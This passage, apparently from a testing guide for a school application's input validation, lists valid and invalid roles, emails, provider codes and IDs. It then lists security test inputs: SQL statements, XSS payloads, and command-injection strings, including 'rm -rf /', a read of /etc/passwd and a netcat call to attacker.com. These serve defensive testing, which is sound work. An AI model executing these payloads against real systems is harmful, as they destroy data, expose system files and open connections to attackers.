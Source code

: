 **❌ Invalid Roles (should be REJECTED):**
```
administrator, super_admin, guest, invalid_role, admin_user, 
teacher_assistant, student, parent, ADMIN (case sensitive)
```

**What this means:** The validation tests verify that only the 10 official roles are accepted, and any other role names (including old/deprecated ones) are properly rejected.

#### **Email Validation**
```
✅ Valid: user@domain.com, test.user+tag@example.org
❌ Invalid: invalid-email, @domain.com, user@, user@domain
```

#### **Service Provider Validation**
Test abbreviation-only format:
```
✅ Valid: SLP, OT, PT, APE, VI, DHH, OHI, SID, AUT, ID, ED, LD, TBI, MD
❌ Invalid: Speech-Language Pathologist, Occupational Therapy
```

#### **Aeries ID Validation**
```
✅ Valid: 123456, 000001, 999999
❌ Invalid: abc123, 12345, 1234567, empty
```

### **Security Threat Detection**

#### **SQL Injection Prevention**
Test these inputs (should be blocked):
```
SELECT * FROM users
INSERT INTO users VALUES
UPDATE users SET role = 'admin'
DELETE FROM users WHERE id = 1
```

#### **XSS Prevention**
Test these inputs (should be sanitized):
```
<script>alert('xss')</script>
javascript:alert('xss')
onload="alert('xss')"
<img src=x onerror=alert('xss')>
```

#### **Command Injection Prevention**
Test these inputs (should be blocked):
```
; rm -rf /
&& cat /etc/passwd
| nc attacker.com 4444
```

---